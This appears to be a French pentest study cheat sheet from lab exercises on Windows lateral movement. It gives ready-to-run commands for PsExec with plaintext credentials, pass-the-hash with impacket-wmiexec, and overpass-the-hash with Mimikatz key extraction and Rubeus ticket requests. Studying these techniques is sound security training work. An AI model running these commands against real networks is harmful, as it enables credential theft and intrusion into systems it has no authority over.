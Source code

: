 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
#pour interagir avec la session:
Enter-PSSession 1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# PSExec
* Utilisateur doit être **admin locale** sur la machine cible
* Le partage **ADMIN$** doit être disponible
* Partage de fichiers et imprimantes doit être activé

Fait parti de la suite SysInternals
Disponible en version web: https://learn.microsoft.com/en-us/sysinternals/#sysinternals-live

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
./PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Pass the hash
* Pas sous Kerberos, seulement NTLM
* Requière connexion SMB
* Utilisateur doit être admin locale sur la machine cible ou AD admin
* Le partage ADMIN$ doit être disponible
* Partage de fichiers et imprimantes doit être activé

Différent outils existent

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.202.73
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Overpass the hash
Créer notre ticket sans passer par le DC
1. Utiliser Mimikatz pour extraire les clefs d'encriptions `AES256_HMAC` ou `RC4_HMAC`.
```cmd-session
privilege::debug
sekurlsa::ekeys
```
2. Utiliser Mimikatz ou Rubeus pour générer notre ticket
	* Mimikatz (Admin seulement)
	 ```sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell```

	* Rubeus
	`Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap`
	
* **whoami** donnera le nom du premier compte utilisé puisqu'il ne vérifie pas les tickets Kerberos.
* **klist** n'aura pas de ticket puisque nous ne sommes pas authentifiés.
s'authentifier pour **générer un ticket** en se connectant à un partage 
```
net use \\files04
```
 Pourrait être autre chose aussi
Ensuite on peut utiliser n'importequel outil qui utilise l'authentification Kerberos comme PSExec
